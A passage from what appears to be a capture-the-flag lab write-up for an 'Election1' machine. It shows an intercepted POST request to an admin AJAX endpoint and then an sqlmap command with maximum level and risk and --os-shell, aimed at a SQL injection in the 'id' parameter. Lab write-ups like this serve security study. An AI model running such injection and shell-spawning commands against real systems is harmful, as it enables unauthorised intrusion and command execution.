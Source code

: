 To edit, Burp Suite was used to intercept the request.

![Untitled](../assets/img/pg/Election1/Untitled%2010.png)

Save the request.

req

```php
POST /election/admin/ajax/op_kandidat.php HTTP/1.1
Host: 192.168.216.211
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 16
Origin: http://192.168.216.211
Connection: close
Referer: http://192.168.216.211/election/admin/kandidat.php?_added
Cookie: el_listing_panitia=5; el_mass_adding=false; el_listing_guru=5; PHPSESSID=4b8evpp42r24ge0j3rcr5p8cl0; el_lang=en-us

aksi=fetch&id=77
```

injection with sqlmap

```bash
sqlmap -r req --level=5 --risk=3 --os-shell -p id
```
